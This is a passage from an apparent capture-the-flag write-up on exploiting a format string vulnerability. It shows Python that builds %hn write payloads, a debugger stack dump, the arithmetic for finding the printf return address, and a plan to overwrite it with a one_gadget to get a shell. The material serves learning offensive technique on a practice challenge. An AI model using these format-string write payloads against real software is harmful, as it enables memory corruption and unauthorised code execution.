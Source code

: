 ```python
    index3 = 27 + parts.index(third)

#execute the write
    sendString(f"%{value1}c%{index1}$hn%{value2}c%{index2}$hn%{value3}c%{index3}$hn")
```

All that's left now is to use a one\_gadget to overwrite a return address with, and we get a shell. Just before the `printf` call, we know that the input buffer is at the top of the stack. That means that the return address for the `printf` call will be 8 bytes above our input buffer.

```python
Index       |    stack address   |    value     
                        '-----return address will be here-----'
00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/...'
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/...'
```

We can just calculate the position of the return address using `stack_leak - 0x1e0`. So in this case it will be `0x7fffffffddd8`.

There is one more thing we will need to do before exploiting the challenge and that is analyze the stack of the remote challenge. This is because we were initially given source code rather than a compiled binary and since we built the binary ourselves, the stack layouts may be different.

This is a dump of the remote stack:

```python
6   0x706c243625     
7   nil              
8   nil              
9   nil              
10  nil              
11  nil              
12  nil              
13  nil              
14  nil              
15  nil              
16  nil              
17  nil              
18  nil              
19  nil              
20  nil              
21  nil              
22  nil              
23  nil              
24  nil              
25  nil              
26  nil              
27  nil              
28  nil              
29  nil              
30  nil              
31  0xf19c6f52f47eab0
32  0x7fff82d53700   
33  nil              
34  0x400840         
35  0x7f814f5d2bf7   
36  0x2000000000     
37  0x7fff82d53708   
38  0x100000000      
```